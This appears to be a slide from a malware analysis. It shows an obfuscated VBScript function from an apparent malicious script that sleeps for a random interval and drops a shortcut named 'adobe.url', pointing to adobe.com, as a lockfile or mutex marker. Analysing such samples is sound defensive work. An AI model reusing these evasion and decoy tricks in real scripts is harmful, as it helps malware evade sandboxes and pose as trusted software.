

# baronial() - F_LOCKFILE - adobe.url - mutex?
Function baronial()
    GewqX("DEBUG: F_LOCKFILE - Start")
    Dim chivalrous,pbI
    chivalrous=10000
    pbI=4000
    Randomize
    With WScript
   	 .Sleep Int((chivalrous-pbI+1)*Rnd+pbI)
    End With
    Dim KstO: Set KstO = CreateObject("WScript.Shell")
    Dim sherry: Set sherry = CreateObject("Scripting.FileSystemObject")
    If (sherry.FileExists(sandhill + "adobe.url")) Then
   	 GewqX("DEBUG: F_LOCKFILE - False")
   	 Ldj
    Else
   	 With KstO.createShortcut(sandhill + "adobe.url")
   		 .TargetPath = "https://adobe.com"
   		 .Save()
   	 End With
   	 GewqX("DEBUG: F_LOCKFILE - True")
    End If
End Function